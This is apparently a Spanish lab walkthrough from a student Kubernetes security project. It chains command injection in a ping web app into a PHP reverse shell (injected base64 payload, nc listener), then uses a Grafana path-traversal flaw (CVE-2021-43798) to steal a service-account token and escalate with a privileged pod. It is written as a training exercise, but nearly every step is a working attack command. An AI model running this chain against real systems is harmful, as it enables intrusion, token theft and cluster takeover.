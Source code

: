 Tras deplegar el laboratorio, ejecutamos este comando para que minikube nos lance un url donde hay una web básica para hacer ping a distintos dominios. 
```bash
minikube service --all
```

minikube lanza un IP con un puerto donde hay una web para lanzar ping a dominios o IPs. Dicha página es vulnerable a LFI:

![../../images/googlecom_ls.png]([file://../../images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png))

Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos:
1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64.
```bash
base64 php-revshell.php
```
1. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash
google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
```
1. Verificamos que se ha subido el archivo shell.php:
```bash
google.com;ls -l
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png)
1. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
``` bash
nc -lvp 80443
```
1. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos entrar en el pod donde se está ejecutando el servicio web.
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png)

Una vez dentro hacemos un reconocimiento en el pod:
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí):
```bash
python3 -m http.server
```
Descargamos el binario y damos permisos de ejecución:
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
```

Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i create pods.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i%20create%20pods.png)
2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
```shell
env
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
```shell
apk add curl
curl http://10.103.238.75:3000/login | grep version
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png)
Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).
Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token.
``` bash
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png)Comprobamos si el posible crear pods con el token de Grafana:
``` bash
./kubectl auth can-i create pods --token=$token
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png)
Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos.

Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
```bash
wget 192.168.1.131:8000/bad-pod.yaml
./kubectl apply -f bad-pod.yaml --token=$token
```
